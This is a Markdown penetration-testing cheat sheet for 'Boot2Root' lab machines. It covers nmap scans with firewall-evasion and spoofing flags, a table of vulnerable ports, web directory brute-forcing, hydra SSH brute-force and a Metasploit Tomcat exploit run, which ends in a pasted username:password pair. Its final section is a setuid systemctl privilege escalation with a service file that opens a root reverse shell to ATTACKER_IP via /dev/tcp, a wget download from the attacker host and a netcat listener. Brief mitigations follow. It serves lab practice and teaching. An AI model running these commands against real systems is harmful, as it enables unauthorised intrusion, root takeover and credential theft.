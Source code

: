 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>

























<details>
  <summary>


  ### Find Directories 
  </summary>

# Finding Web Directories - Cheat Sheet

### 1. **Using `dirb` (Directory Buster)**
- **Basic command:**
  ```bash
  dirb http://10.10.195.158
  ```

### 2. **Using `gobuster`**
- **Basic command:**
  ```bash
  gobuster dir -u http://10.10.195.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```

### 3. **Using `nikto` for Web Scanning**
- **Basic command:**
  ```bash
  nikto -h http://10.10.195.158
  ```

### 4. **Using `wfuzz` (Web Fuzzer)**
- **Basic command:**
  ```bash
  wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.195.158/FUZZ
  ```

### 5. **Using Nmap with `http-enum` Script**
- **Command:**
  ```bash
  nmap --script http-enum -p 80 10.10.195.158
  ```

### 6. **Using `ffuf` (Fuzz Faster U Fool)**
- **Basic command:**
  ```bash
  ffuf -u http://10.10.195.158/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```


</details>









<details>
<summary>
  
  ### **Web Enumeration**

</summary>
```bash
gobuster dir -e -u http://10.10.181.27 -w /home/iftx/Desktop/Room/wordlist/common.txt -x .php,.txt,.js,.html

subfinder -d [Target Domain]     # Find subdomains

amass enum -d [Target Domain]    # Active enumeration
```

### **Service Enumeration**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>

## Privilege Escalation

<details>
  <summary>
  Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


